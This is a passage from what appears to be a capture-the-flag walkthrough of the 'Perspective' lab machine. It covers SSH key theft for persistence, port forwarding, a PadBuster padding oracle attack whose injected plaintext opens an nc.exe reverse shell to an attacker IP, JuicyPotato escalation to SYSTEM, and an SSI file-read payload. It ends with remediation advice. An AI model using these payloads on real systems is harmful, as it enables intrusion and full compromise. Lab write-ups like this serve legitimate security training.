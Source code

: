 #### 9. Stable Shell via SSH
- From reverse shell (as webuser), extract `~/.ssh/id_rsa`
- Copy to attack machine, chmod 600, and SSH as webuser@[TARGET-IP]
- **Technique**: SSH key extraction and persistent access via key-based authentication

### Phase 5: Staging Application Discovery and Padding Oracle Attack

#### 10. Access Staging App via Port Forward
- From SSH shell, identify listening ports (e.g., 8009 via netstat)
- Local port forward: `ssh -L 8009:127.0.0.1:8009`
- Access `http://127.0.0.1:8009` (staging app, environment=staging, auto-generated machine keys preventing deserial)
- **Technique**: SSH local port forwarding for internal service access; network reconnaissance via netstat

#### 11. Padding Oracle Attack on Staging Password Reset Token
- In staging app, register user and initiate password reset to get encrypted token
- Use PadBuster on token (block size 16, URL-encoded base64, post data, error string "padding is invalid")
- Plaintext: Craft command injection (e.g., `"root@perspective.htb && c:\programdata\nc.exe [ATTACKER-IP] 9001 -e cmd.exe"`)
- Encrypt with PadBuster and submit in reset request to get reverse shell as administrator (due to staging running as admin)
- **Technique**: Padding Oracle attack with PadBuster; command injection via encrypted token manipulation

### Phase 6: Privilege Escalation to SYSTEM

#### 12. Privilege Escalation to SYSTEM via JuicyPotato
- As administrator, upload JuicyPotato.exe and test.bat (with reverse shell)
- Scan for unfiltered COM ports (e.g., 443)
- Run JuicyPotato with `-p shell.bat -t * -l 443` to get shell as SYSTEM
- **Technique**: Windows privilege escalation via JuicyPotato (SeImpersonatePrivilege abuse); COM port scanning for firewall bypass

## Security Gaps and Remediation

This machine demonstrates multiple critical security vulnerabilities across different services:

### IIS Web Server (Production on Port 80)
- **Gap**: Local File Inclusion (LFI) via Server-Side Includes (SSI) in uploaded .shtml files allows reading sensitive files like web.config by uploading files with SSI directives (e.g., `<!--#include file="../web.config"-->`)
- **Fix**: Configuration fix - Disable SSI handling in IIS by removing or disabling the ServerSideIncludeModule in the web.config or IIS Manager (under Modules). Alternatively, source code fix - Implement strict file extension validation and content scanning in the upload handler to block SSI directives
